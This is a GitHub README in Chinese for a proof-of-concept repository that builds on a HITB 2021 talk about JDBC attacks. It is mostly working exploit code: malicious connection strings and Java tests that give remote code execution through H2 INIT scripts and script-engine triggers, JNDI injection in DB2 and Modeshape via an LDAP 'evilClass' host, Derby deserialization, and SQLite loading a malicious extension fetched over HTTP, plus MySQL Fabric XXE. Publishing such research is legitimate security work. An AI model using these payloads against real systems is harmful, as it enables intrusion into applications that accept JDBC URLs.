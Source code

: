# atkjdbc

HITB SECCONF Singapore-2021 议题 [Make JDBC Attacks Brilliant Again](https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf) 的利用代码。
对议题内容进行了一些拓展，补充了利用方式和 Poc 代码。

## Content

仓库包含以下数据库 JDBC Driver 的 Poc 代码。

### Spring Boot H2 Console

出网

```java
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql'
```

不出网，通过多语句执行，

```java
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\\;return \"trganda\"\\;}'\\;CALL EXEC ('open -a Calculator.app')
```

#### SourceCompiler

或通过脚本语言引擎，支持 Javascript、Ruby、Groovy。

Javascript，

```java
@Test
public void js() throws SQLException {
    String javascript =
            "//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";

    // only work on old h2 version
    // String oldUrl =
    //            "jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;MODE=MSSQLServer;INIT=CREATE
    // TRIGGER POC BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"
    //                + javascript
    //                + "'";

    String url =
            "jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '"
                    + javascript
                    + "'";

    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

JRuby，

```java
@Test
public void ruby() throws SQLException {
    String ruby =
            "#ruby\nrequire \"java\"\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
    String url =
            "jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '"
                    + ruby
                    + "'";

    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

Groovy

```java
@Test
public void groovyAsset() throws SQLException {
    String groovy =
            "@groovy.transform.ASTTest(value={"
                    + " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")"
                    + "})"
                    + "def x";
    String url =
            "jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS T5 AS '"
                    + groovy
                    + "'";

    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

### Apache Derby

Master 模式下，借助反序列化，slave 会返回恶意数据。

```java
@Test
public void derby() throws SQLException {
    DriverManager.getConnection("jdbc:derby:db;startMaster=true;slaveHost=127.0.0.1");
}
```

### IBM H2

JNDI 注入

```java
@Test
public void db2() throws SQLException {
    String url =
            "jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:1389/evilClass;";
    DriverManager.getConnection(url);
}
```

### Java Content Repository

JCR 的实现 Modeshape 可以使用 JNDI。


```java
@Test
public void modeshape() throws SQLException {
    String url = "jdbc:jcr:jndi:ldap://127.0.0.1:1389/evilClass";
    DriverManager.getConnection(url);
}
```

### SQLite

议题原分享者，只是假设有一个可控的 SQLite Extension 文件的话可以利用。
但实际上仅通过 SQLite Driver 就足够达到这一点了，因为它内部的 SSRF 本事就是一个文件上传的功能，只不过有大小限制。

目前只在 Ubuntu 测试过，编译 `poc.c` 文件，

```sh
gcc -Os -flto -fdata-sections -ffunction-sections -c poc.c
```

通过 `poc.lds` 链接脚本，编译 Extension（保证体积不超过 8K），

```sh
gcc -T poc.lds -fPIC -s -nostartfiles -nostdlib -flto -shared poc.o -o pocs.so
```

执行 Poc 代码

```java
public static void createDb(String path) {
	File dbFile = new File("src/main/resources/poc.db");
	if (dbFile.exists()) {
		dbFile.delete();
	}

	try (Connection conn =
			 DriverManager.getConnection(
				 String.format("jdbc:sqlite:%s", "src/main/resources/poc.db"));) {
		conn.setAutoCommit(true);
		Statement statement = conn.createStatement();
		statement.execute(String.format("CREATE VIEW POC AS SELECT load_extension('%s', 'poc');", path));
		statement.close();
	} catch (SQLException e) {
		// ttk...
	}
}

@Test
public void sqlite() throws SQLException, MalformedURLException {

	String extensionUrl = "http://127.0.0.1:8001/poc.so";

	URL resourceAddr = new URL(extensionUrl);
	String extensionPath = String.format("/tmp/sqlite-jdbc-tmp-%d.db", resourceAddr.hashCode());
	System.out.println(extensionPath);

	createDb(extensionPath);

	System.out.println(System.getProperty("java.io.tmpdir"));

	// upload extension file
	Connection conn =
			DriverManager.getConnection(
					String.format("jdbc:sqlite::resource:%s", extensionUrl));
	conn.close();

	// poc
	String url =
			"jdbc:sqlite::resource:http://127.0.0.1:8001/poc.db?enable_load_extension=true";
	Connection connection = DriverManager.getConnection(url);
	connection.setAutoCommit(true);

	Statement statement = connection.createStatement();
	statement.execute("SELECT * FROM POC");

	statement.close();
	connection.close();
}
```

另一种攻击方式是利用 magellan 漏洞，超出知识范围，暂未实现。

### MySQL Fabric

利用 XMLRPC，实现 XML 外部实体注入。

```java
@Test
public void fabric() throws SQLException {
	String url = "jdbc:mysql:fabric://127.0.0.1:5000";
	Connection conn = DriverManager.getConnection(url);
}
```
